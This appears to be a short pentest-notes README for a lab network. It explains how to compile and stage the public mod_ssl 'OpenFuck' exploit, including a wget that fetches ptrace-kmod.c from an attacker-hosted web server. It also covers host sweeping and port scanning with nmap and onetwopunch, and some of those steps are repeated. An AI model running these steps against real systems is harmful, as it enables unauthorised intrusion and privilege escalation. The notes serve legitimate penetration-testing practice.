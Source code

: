 # pentest
 
**mod_ssl 2.8.7 open ssl exploit (openfuckv2)** (https://www.exploit-db.com/exploits/764)

1. Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

2. install libssl-dev
`apt-get install libssl-dev`

3. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

4. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`

---

**Onetwopunch.sh** (https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh)
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`